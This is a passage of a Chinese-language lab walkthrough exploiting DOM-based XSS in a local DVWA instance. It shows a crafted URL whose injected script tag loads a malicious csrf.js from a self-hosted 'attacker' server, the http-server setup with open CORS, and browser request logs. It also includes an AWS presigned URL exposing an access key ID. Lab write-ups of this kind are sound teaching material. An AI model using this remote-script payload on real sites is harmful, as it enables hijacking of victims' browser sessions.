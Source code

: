 很幸運的並沒有 CSP 限制，成功載入，這代表我們的攻擊應該會很順利

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4b73dbaa-2ca7-4359-b253-4c50de09b0b2/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070212Z&X-Amz-Expires=86400&X-Amz-Signature=0d5f5ae2226cce05d540ca459a097dd15be9f1ab9d894248d1ce9120f7d77d9b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```
Navigated to http://dvwa.localtest/vulnerabilities/xss_d/?default=English%3Cscript%20src=%22https://unpkg.com/axios@0.2.1/dist/axios.min.js%22%3Econsole.log(123)%3C/script%3E&default=English#
GEThttp://dvwa.localtest/vulnerabilities/xss_d/?default=English<script src="https://unpkg.com/axios@0.2.1/dist/axios.min.js">console.log(123)</script>&default=English#

[HTTP/1.1 200 OK 5ms]

GEThttp://dvwa.localtest/dvwa/js/dvwaPage.js
[HTTP/1.1 200 OK 0ms]

GEThttp://dvwa.localtest//dvwa/js/add_event_listeners.js
[HTTP/1.1 200 OK 0ms]

GEThttps://unpkg.com/axios@0.2.1/dist/axios.min.js
[HTTP/2 200 OK 0ms]

GEThttp://dvwa.localtest/favicon.ico
[HTTP/1.1 200 OK 0ms]
```

接著測看看我們的惡意 js file 能不能被遠端載入

http-server - npm
https://www.npmjs.com/package/http-server

我們用 [http-server](https://www.npmjs.com/package/http-server) 當作駭客的伺服器，將惡意檔案放在 `http://127.0.0.1:8080/csrf.js`

要記得開啟 `—cors` 選項，不然會無法載入，會碰到類似這樣的訊息

```
Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at http://127.0.0.1:8080/csrf.js. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing). Status code: 200.
```

加上 Access-Control-Allow-Origin: * 允許來自任何網域的 ajax 請求

```
http-server --cors='Access-Control-Allow-Origin: *'
```

```
http://127.0.0.1:8080/csrf.js
```

### 模擬受害者

現在假裝是受害者踩到惡意連結

```html
http://dvwa.localtest/vulnerabilities/xss_d/?default=English<script src="http://127.0.0.1:8080/csrf.js">console.log('hi')</script>&default=English#
```
